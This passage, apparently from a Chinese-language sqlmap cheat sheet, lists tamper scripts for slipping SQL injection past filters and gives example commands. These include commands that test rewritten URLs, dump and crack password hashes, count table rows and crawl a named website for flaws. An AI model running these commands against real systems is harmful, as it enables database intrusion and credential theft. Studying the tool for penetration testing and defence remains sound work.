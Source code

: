     sp_password.py追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾
    
    chardoubleencode.py双url编码(不处理以编码的)
    
    unionalltounion.py替换UNION ALLSELECT UNION SELECT
    
    charencode.py　url编码
    
    randomcase.py随机大小写
    
    unmagicquotes.py宽字符绕过 GPCaddslashes
    
    randomcomments.py用/**/分割sql关键字
    
    charunicodeencode.py字符串 unicode 编码
    
    securesphere.py追加特制的字符串
    
    versionedmorekeywords.py注释绕过
    
    space2comment.py替换空格字符串(‘‘) 使用注释‘/**/’
    
    halfversionedmorekeywords.py关键字前加注释
    
        

### 2\. URL重写SQL注入测试

    value1为测试参数，加“*”即可，sqlmap将会测试value1的位置是否可注入。
    
    sqlmap.py -u"http://targeturl/param1/value1*/param2/value2/"
    
        

### 3\. 列举并破解密码哈希值

      当前用户有权限读取包含用户密码的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。
    
    sqlmap.py -u"http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v1
    
        

### 4\. 获取表中的数据个数

    sqlmap.py -u"http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -Dtestdb
    
        

### 5.对网站secbang.com进行漏洞爬去

    sqlmap.py -u "http://www.secbang.com"--batch --crawl=3
    
        

### 6.基于布尔SQL注入预估时间

    sqlmap.py -u "http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1"-b --eta
    
        

### 7.使用hex避免字符编码导致数据丢失

    sqlmap.py -u "http://192.168.48.130/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors
    